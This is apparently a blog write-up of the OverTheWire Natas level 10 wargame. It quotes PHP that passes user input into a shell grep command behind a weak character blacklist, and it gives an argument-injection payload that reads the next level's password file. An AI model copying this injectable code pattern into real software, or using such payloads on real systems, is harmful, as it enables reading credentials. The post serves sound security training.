 ```yaml
---
layout: post
title: "Natas 10 & 11 Writeup"
date: 2019-03-11
author: th3-3inst3in
categories: overthewire
---
```


## Natas 10

Visit this [link](http://natas10.natas.labs.overthewire.org/) to go to level 10 for which you’ll need the password from the previous level.
You’ll land here 

![login](https://themctfwriteups.files.wordpress.com/2019/03/image.png)

As always our goal is to read the flag which is inside the /etc/ folder as instructed at the start of level 1.

Clicking the view Sourcecode link we see the following code

```php
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i $key dictionary.txt");
    }
}
?>
```

main thing to be noted here is the preg_match() function which looks at our input and if it sees \& \| ; then it immediately throws an error saying Input contians illegal characters

Since our input is going in the passthru() function and will be a part of the current grep command we can simply get the flag with the following payload.

```bash
.* /etc/natas_webpass/natas11
```

![flag](https://i.imgur.com/QmC4XyM.png)